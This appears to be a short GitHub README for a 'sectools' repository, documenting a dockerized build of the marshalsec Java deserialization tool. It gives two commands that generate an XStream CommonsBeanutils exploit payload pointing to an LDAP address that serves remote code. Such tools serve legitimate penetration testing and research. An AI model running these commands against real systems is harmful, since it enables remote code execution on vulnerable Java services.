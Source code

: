 # sectools

## java
### deserialize
#### marshalsec
dockerized marshalsec
https://github.com/mbechler/marshalsec

usage:
`docker run -ti --rm ssst0n3/sectools:marshalsec marshalsec.XStream CommonsBeanutils ldap://<IP>:<PORT>/exp > payload.xml`

same as

`java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.XStream CommonsBeanutils ldap://<IP>:<PORT>/exp > payload.xml`